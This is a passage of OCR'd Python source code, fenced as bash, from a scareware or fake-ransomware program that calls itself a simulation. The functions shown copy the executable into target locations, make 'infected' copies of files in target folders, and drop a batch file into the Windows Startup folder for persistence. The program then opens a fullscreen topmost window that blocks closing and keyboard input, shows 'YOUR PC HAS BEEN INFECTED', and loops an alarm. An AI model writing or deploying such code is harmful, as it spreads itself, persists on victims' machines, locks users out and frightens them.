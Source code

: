 ```bash
            shutil.copy(exe_path, target)
            log_event(f"Copied to {target}", log_box)
        except Exception as e:
            log_event(f"Spread failed: {e}", log_box)

def infect_files(log_box=None):
    for d in TARGET_DIRS:
        try:
            for fname in os.listdir(d):
                fpath = os.path.join(d, fname)
                if os.path.isfile(fpath) and not fpath.endswith(FAKE_EXT):
                    infected = fpath + FAKE_EXT
                    shutil.copy(fpath, infected)
                    log_event(f"File infected: {infected}", log_box)
        except:
            pass

def simulate_persistence(log_box=None):
    try:
        startup = os.path.join(os.getenv("APPDATA"), r"Microsoft\\Windows\\Start Menu\\Programs\\Startup")
        os.makedirs(startup, exist_ok=True)
        dummy = os.path.join(startup, "startup_infect.bat")
        with open(dummy, "w") as f:
            f.write("echo Fake persistence simulation - no real damage.")
        log_event(f"Persistence simulated at: {dummy}", log_box)
    except Exception as e:
        log_event(f"Persistence failed: {e}", log_box)

def play_alert():
    try:
        pygame.mixer.init()
        pygame.mixer.music.load(ALARM_FILE)
        pygame.mixer.music.play(-1)
        print(f"[+] Playing sound from {ALARM_FILE}")
    except Exception as e:
        log_event(f"Alert sound error: {e}")

# --- Fullscreen infection GUI ---
def infection_screen():
    root = tk.Tk()
    root.attributes("-fullscreen", True)
    root.configure(bg="black")
    root.wm_attributes("-topmost", 1)

    # disable exit + keyboard
    root.protocol("WM_DELETE_WINDOW", lambda: None)
    root.bind_all("<Key>", lambda e: "break")
    root.bind_all("<Alt-Key>", lambda e: "break")

    warning = tk.Label(
        root,
        text="⚠️ YOUR PC HAS BEEN INFECTED ⚠️",
        fg="red",
        bg="black",
        font=("Consolas", 42, "bold")
    )
    warning.place(relx=0.5, rely=0.3, anchor="center")

    submsg = tk.Label(
        root,
        text="Do not turn off your computer.\nFiles are being corrupted...",
        fg="yellow",
```